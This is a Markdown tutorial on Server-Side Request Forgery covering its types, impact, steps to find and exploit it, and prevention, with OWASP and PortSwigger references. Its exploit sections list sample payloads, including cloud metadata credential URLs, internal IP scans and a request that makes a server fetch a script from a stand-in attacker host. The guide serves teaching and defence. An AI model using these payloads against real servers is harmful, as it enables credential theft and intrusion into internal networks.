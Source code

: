 # Server-Side Request Forgery (SSRF)

## CONTENTS
1. [Prerequisites](#1-prerequisites)
2. [What is SSRF?](#2-what-is-ssrf)
3. [Impact of SSRF Vulnerabilities](#3-impact-of-ssrf-vulnerabilities)
4. [Common Types of SSRF Vulnerabilities](#4-common-types-of-ssrf-vulnerabilities)
   - [Basic SSRF](#41-basic-ssrf)
   - [Blind SSRF](#42-blind-ssrf)
   - [Chained SSRF](#43-chained-ssrf)
5. [Prevention of SSRF Vulnerabilities](#5-prevention-of-ssrf-vulnerabilities)
6. [References](#6-references)

---

## 1. Prerequisites

### What is SSRF?
Server-Side Request Forgery (SSRF) is a web vulnerability that allows an attacker to manipulate a server into making arbitrary requests to resources they control or internal systems the attacker cannot directly access.

**Key Characteristics**:
1. The attacker sends a crafted request to a vulnerable application.
2. The server, acting as a proxy, executes the attacker’s request to unintended resources.

---

## 2. What is SSRF?

SSRF exploits functionality where a server fetches resources based on user input. By manipulating user-controlled parameters, attackers can:
- Access sensitive internal resources.
- Scan internal networks and services.
- Exploit cloud services or retrieve metadata.

**Example Scenario**:
- An application uses a URL to retrieve content:

`http://example.com/fetch?url=http://trusted.com/resource`

- The attacker manipulates the URL:

`http://example.com/fetch?url=http://169.254.169.254/latest/meta-data/`

This fetches sensitive data from the cloud metadata service.

---

## 3. Impact of SSRF Vulnerabilities

1. **Confidentiality**:
 - Access to sensitive internal resources, such as databases, internal APIs, or cloud metadata.

2. **Integrity**:
 - Ability to perform unauthorized actions, such as modifying server configurations.

3. **Availability**:
 - Can cause denial-of-service (DoS) attacks by overwhelming internal services.

4. **Advanced Exploitation**:
 - SSRF can lead to privilege escalation, remote code execution, or lateral movement within a network.

---

## 4. Common Types of SSRF Vulnerabilities

### 4.1. Basic SSRF

**Theory**  
Basic SSRF allows direct manipulation of user-controlled input to perform unauthorized requests.

**Steps to Find**
1. Locate user inputs that fetch external resources (e.g., URLs, hostnames).
2. Test with payloads to access internal services:
 - `http://127.0.0.1/`
 - `http://169.254.169.254/latest/meta-data/`

**Steps to Exploit**
1. Retrieve sensitive information:
 - `http://127.0.0.1/admin`
 - `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
2. Scan for internal services:
 - `http://10.0.0.1:80`
 - `http://192.168.0.1/private`

---

### 4.2. Blind SSRF

**Theory**  
Blind SSRF occurs when the server processes the attacker's request without providing a visible response. Out-of-band communication channels are often required.

**Steps to Find**
1. Set up an out-of-band (OOB) service such as Burp Collaborator or a DNS logger.
2. Inject OOB payloads:
 - `http://your-oob-server.com`
3. Monitor for requests from the vulnerable server.

**Steps to Exploit**
1. Enumerate internal services using delays:
 - `http://10.0.0.1:80` (200 OK)
 - `http://10.0.0.2:80` (no response)
2. Use DNS rebinding to resolve private IPs:
 - Inject payloads resolving to internal IP ranges.

---

### 4.3. Chained SSRF

**Theory**  
Chained SSRF combines SSRF with other vulnerabilities to achieve a more significant impact.

**Steps to Exploit**
1. Use SSRF to retrieve configuration files or credentials:
 - `http://metadata.internal/latest/meta-data/`
2. Use the retrieved credentials to access internal APIs or services.
3. Trigger secondary vulnerabilities like insecure deserialization or command injection.

**Advanced Example**:
- Fetch malicious scripts:

`http://vulnerable.com/api?fetch=http://attacker.com/malicious-script`

---

## 5. Prevention of SSRF Vulnerabilities

### Input Validation
1. **Allowlist Validation**:
 - Restrict URLs and IPs to a known allowlist.
 - Example:
   - Allow only domains like `trusted.com`.
   - Block private IP ranges such as `127.0.0.1`, `10.0.0.0/8`, and `192.168.0.0/16`.

2. **Reject Unsafe Input**:
 - Block URLs using unsafe protocols (e.g., `file://`, `ftp://`).

---

### Secure Network Configuration
1. **Restrict Server Access**:
 - Limit the server’s ability to communicate with internal resources.
 - Use network segmentation to isolate sensitive systems.

2. **Firewall Rules**:
 - Use a deny-all policy for outgoing requests and allow only necessary destinations.

---

### Additional Measures
1. **Disable URL Redirections**:
 - Prevent redirection chains from bypassing input validation.

2. **Log and Monitor**:
 - Log all outgoing requests.
 - Use monitoring tools to detect abnormal traffic.

---

## 6. References

- [PortSwigger Web Security Academy](https://portswigger.net/web-security/ssrf)  
- [OWASP – SSRF](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)  
- [SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)  

